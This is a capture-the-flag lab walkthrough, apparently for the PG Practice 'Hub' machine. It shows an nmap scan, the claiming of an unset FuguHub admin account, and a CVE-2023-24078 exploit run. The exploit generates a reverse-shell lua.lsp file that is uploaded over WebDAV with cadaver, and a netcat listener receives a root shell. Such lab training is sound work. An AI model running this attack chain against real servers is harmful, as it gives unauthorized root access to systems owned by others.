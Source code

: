 # **HUB | PG Practice**

***
## Part 4 of Mid Year CTF machines

## Released on: **Jun 16, 2023**

## Walkthrough: **Yes**
***


Running our nmap scan we have the following open ports


```bash
# Nmap 7.94SVN scan initiated Wed Feb 28 06:33:33 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.227.25
Warning: 192.168.227.25 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.227.25
Host is up (0.14s latency).
Not shown: 65456 closed tcp ports (conn-refused), 75 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: 403 Forbidden
8082/tcp open  http     Barracuda Embedded Web Server
|_http-server-header: BarracudaServer.com (Posix)
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND PATCH POST PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Wed, 28 Feb 2024 05:35:21 GMT
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  Server Type: BarracudaServer.com (Posix)
|_http-favicon: Unknown favicon MD5: FDF624762222B41E2767954032B6F1FF
|_http-title: Home
9999/tcp open  ssl/http Barracuda Embedded Web Server
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Date: Wed, 28 Feb 2024 05:35:22 GMT
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PATCH, POST, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
|_  Server Type: BarracudaServer.com (Posix)
|_http-server-header: BarracudaServer.com (Posix)
|_http-favicon: Unknown favicon MD5: FDF624762222B41E2767954032B6F1FF
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND PATCH POST PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_  Potentially risky methods: PROPFIND PATCH PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
|_http-title: Home
| ssl-cert: Subject: commonName=FuguHub/stateOrProvinceName=California/countryName=US
| Subject Alternative Name: DNS:FuguHub, DNS:FuguHub.local, DNS:localhost
| Issuer: commonName=Real Time Logic Root CA/organizationName=Real Time Logic LLC/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-07-16T19:15:09
| Not valid after:  2074-04-18T19:15:09
| MD5:   6320:2067:19be:be32:18ce:3a61:e872:cc3f
|_SHA-1: 503c:a62d:8a8c:f8c1:6555:ec50:77d1:73cc:0865:ec62
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 28 06:35:28 2024 -- 1 IP address (1 host up) scanned in 115.13 seconds
```




Navigating to [http://192.168.227.25/](http://192.168.227.25/) we have a **"403 Forbidden"** message from a web server known as nginx


![](https://i.imgur.com/Nkq6YCA.png)

Whereas checking [http://192.168.227.25:8082/](http://192.168.227.25:8082/) we are asked to set an administrator password first (Baaaddd Security!! :{)

![](https://i.imgur.com/XU9QKCX.png)


Successfully set up the administrator account with username: `admin` and password: `admin123`

![](https://i.imgur.com/Cd648Mf.png)


Navigating to the about section of this page i found a version disclosure of this web application called `FuguHub 8.4`



![](https://i.imgur.com/dMd7u9s.png)


searching for an exploit, I found [this](https://github.com/overgrowncarrot1/CVE-2023-24078) Authenticated Remote Code Execution vulnerability 


![](https://i.imgur.com/P3YwsS9.png)


However running this exploit gave us this error, Looks like it is trying to create and admin user but can't because we have already done that, we can go ahead and revert the box then try again


![](https://i.imgur.com/weVhqzj.png)


Running the exploit we get another browser pop-up, make sure to leave it open, according to the instructions the exploit has created a `lua.lsp` file for us locally that contains our reverse shell, let go ahead and do this


```bash
python3 CVE-2023-24078.py -p 4444 -l 192.168.45.209 -r 192.168.227.25 -P 8082
```


![](https://i.imgur.com/M4AiPru.png)


First of all on the new popped-up browser you should see a link make sure to copy the link as this is the location we are uploading our reverse shell to


![](https://i.imgur.com/3VTOOg5.png)


Now run `cadaver` in which folder the `lua.lsp` file was created in and upload the file to the web application

```bash
cd CVE-2023-24078
cadaver http://192.168.227.25:8082/fs/d0ffb9d2dccff24883a23236/
cd ..

# Username: adm1n
# Password: *********

put lua.lsp
```


![](https://i.imgur.com/02H14CG.png)



Start up your listener with netcat then navigate back to the major exploit page and hit the "**Enter**" key on your keyboard and you should have your shell back


```
nc -lvnp 4444
```



![](https://i.imgur.com/gZomFTx.png)



Then we have our reverse shell back as root

![](https://i.imgur.com/9kt0fhQ.png)

GG
